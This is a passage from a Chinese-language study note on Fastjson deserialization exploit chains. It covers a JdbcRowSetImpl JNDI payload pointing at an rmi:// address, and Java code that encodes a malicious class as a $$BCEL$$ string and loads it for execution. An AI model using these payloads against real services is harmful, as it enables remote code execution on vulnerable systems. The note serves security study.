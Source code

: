 4. 综上，通过 `setDataSourceName()` 赋值，然后通过 `setAutoCommit()` 来触发链：
    ```java
    // 有版本限制、依赖限制、而且需要出网
    String payload = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\", \"DataSourceName\":\"rmi://127.0.0.1:1099/myRemote\", \"AutoCommit\":false}";
    JSONObject jsonObject = JSON.parseObject(payload);
    ```

5. 这个链实际上有很大的限制：

    1. 版本限制（受到 JNDI 的版本限制）
    2. 依赖限制
    3. 需要出网（JDNI 链接需要出网）

6. 不过没有用到 getter，因此在 `JSON.parse() 和 JSON.parseObject()` 下都可以使用。

### 3.3 BCEL 链原理

1. 注意：要求 JDK 版本要小于 8u251，而且有 dbcp 依赖（tomcat 中）：

    > https://cloud.tencent.com/developer/article/1730722

2. 参考：

    > https://blog.csdn.net/weixin_49248030/article/details/127989449

    这里主要强调以下重点。

3. `com.sun.org.apache.bcel.internal.util.ClassLoader` 加载恶意类的代码：

    ```java
    private static void ClassLoaderGadget() throws IOException, ClassNotFoundException, InstantiationException, IllegalAccessException {
        // com.sun.org.apache.bcel.internal.util.ClassLoader 的基本的使用方法
        ClassLoader classLoader = new ClassLoader();
        byte[] bytes = fileToBinArray(new File("target/classes/Evil.class"));
        String code = Utility.encode(bytes, true);
        classLoader.loadClass("$$BCEL$$" + code).newInstance();
    }
    
    /**
         * 文件转字节码数组
         * @param file
         * @return
         */
    private static byte[] fileToBinArray(File file) {
        try {
            FileInputStream fileInputStream = new FileInputStream(file);
            return FileCopyUtils.copyToByteArray(fileInputStream);
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }
    ```

4. 首先是为什么在 `loadClass()` 前需要加 `$$BCEL$$`，因为只有这样才能进 `if`：